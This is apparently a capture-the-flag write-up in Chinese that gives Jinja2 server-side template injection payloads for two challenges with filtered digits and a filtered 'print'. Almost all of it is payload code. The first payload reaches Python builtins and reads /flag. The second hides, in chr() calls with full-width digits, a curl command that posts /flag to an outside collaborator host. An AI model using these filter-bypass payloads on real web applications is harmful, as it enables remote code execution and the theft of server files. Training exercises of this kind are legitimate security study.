 ## web370(过滤0-9)

继续构造

```
{% set two=(dict(aa=a)|join|count)%}
{% set three=(dict(aaa=a)|join|count)%}
{% set four=(dict(aaaa=a)|join|count)%}
{% set seven=(dict(aaaaaaa=a)|join|count)%}
{% set eight=(dict(aaaaaaaa=a)|join|count)%}
{% set nine=(dict(aaaaaaaaa=a)|join|count)%}
{% set ten=(dict(aaaaaaaaaa=a)|join|count)%}
{% set twofour=(two~four)|int%}
{% set a=(()|select|string|list).pop(twofour) %}
{% set globals=(a,a,dict(globals=h)|join,a,a)|join %}
{% set init=(a,a,dict(init=h)|join,a,a)|join %}
{% set builtins=(a,a,dict(builtins=h)|join,a,a)|join %}
{% set a=(lipsum|attr(globals)).get(builtins) %}
{% set chr=a.chr %}
{% print a.open(chr((four~seven)|int)~chr((ten~two)|int)~chr((ten~eight)|int)~chr((nine~seven)|int)~chr((ten~three)|int)).read() %}
```

## web371(过滤了print)

利用全角数字进行数字的绕过

> 全角和半角指的是输入的英文字母或数字的大小，全角输入的英文字母及数字是正常汉字的一半，全角输入的和正常汉字等大。一个汉字要占两个英文字符的位置，人们把一个英文字符所占的位置称为"半角"，相对地把一个汉字所占的位置称为"全角"。

```
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(２４)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set ohs=(dict(o=a,s=a)|join)%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=chr(９９)%2bchr(１１７)%2bchr(１１４)%2bchr(１０８)%2bchr(３２)%2bchr(４５)%2bchr(８８)%2bchr(３２)%2bchr(８０)%2bchr(７９)%2bchr(８３)%2bchr(８４)%2bchr(３２)%2bchr(４５)%2bchr(７０)%2bchr(３２)%2bchr(１２０)%2bchr(１２０)%2bchr(６１)%2bchr(６４)%2bchr(４７)%2bchr(１０２)%2bchr(１０８)%2bchr(９７)%2bchr(１０３)%2bchr(３２)%2bchr(１０４)%2bchr(１１６)%2bchr(１１６)%2bchr(１１２)%2bchr(５８)%2bchr(４７)%2bchr(４７)%2bchr(１０４)%2bchr(１２２)%2bchr(１０７)%2bchr(１１９)%2bchr(５７)%2bchr(１２２)%2bchr(１２０)%2bchr(１１３)%2bchr(１１０)%2bchr(１０１)%2bchr(４８)%2bchr(１１０)%2bchr(１０８)%2bchr(５５)%2bchr(１１２)%2bchr(１１６)%2bchr(５３)%2bchr(５３)%2bchr(１０２)%2bchr(１００)%2bchr(１１９)%2bchr(１２１)%2bchr(５１)%2bchr(９９)%2bchr(１１１)%2bchr(５１)%2bchr(１１７)%2bchr(１１７)%2bchr(１０５)%2bchr(１０７)%2bchr(５４)%2bchr(５７)%2bchr(４６)%2bchr(１１１)%2bchr(９７)%2bchr(１１５)%2bchr(１１６)%2bchr(１０５)%2bchr(１０２)%2bchr(１２１)%2bchr(４６)%2bchr(９９)%2bchr(１１１)%2bchr(１０９)%}
{% if ((lipsum|attr(glo)).get(ohs).popen(cmd))%}
abc
{% endif %}
```
